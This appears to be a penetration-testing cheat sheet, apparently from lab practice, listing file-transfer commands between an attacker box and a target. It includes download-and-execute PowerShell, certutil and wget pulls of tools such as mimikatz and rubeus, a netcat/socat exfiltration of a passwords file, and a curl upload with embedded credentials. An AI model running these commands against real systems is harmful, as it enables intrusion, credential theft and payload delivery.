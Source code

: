 # Transferring Files

## wget

```bash
python3 -m http.server 8000 # on kali machine
wget http://10.10.14.1:8000/linenum.sh # on target machine
```

## cURL

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
curl -T '/home/kali/Documents/pg/Hutch/shell.exe' 'http://192.168.136.122/' -u fmcsorley:CrabSharkJellyfish192
```

## SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh # with ssh user creds
```

## Base64

```bash
lojique@htb[/htb]$ base64 shell -w 0
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Netcat

```bash
# to receive a file
nc -nlvp 4444 > incoming.exe
# to transfer a file
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Socat

```bash
# to transfer
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
# to receive
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

## PowerShell

```powershell
# download a file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
iwr http://192.168.45.5/rubeus.exe -outfile rubeus.exe
# loads file in memory and runs it
iex (iwr http://192.168.119.217/Sherlock.ps1 -UseBasicParsing)
```

## Powercat

```
# listener
sudo nc -lnvp 443 > receiving_powercat.ps1
# send a file
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## Certutil

```
certutil.exe -urlcache -split -f http://<IP>/Sherlock.ps1 Sherlock,ps1
```

## Impacket SMB

```bash
# In directory with file
impacket-smbserver share . -smb2support

# From victim
\\10.10.10.10\share\mimikatz.exe 

copy \\10.10.10.10\share\mimikatz.exe 
```

## FTP

```
python -m pyftpdlib 21 <ATTACKER IP>
ftp 10.10.10.10
```

## Evil-WinRM

```
upload
download
```
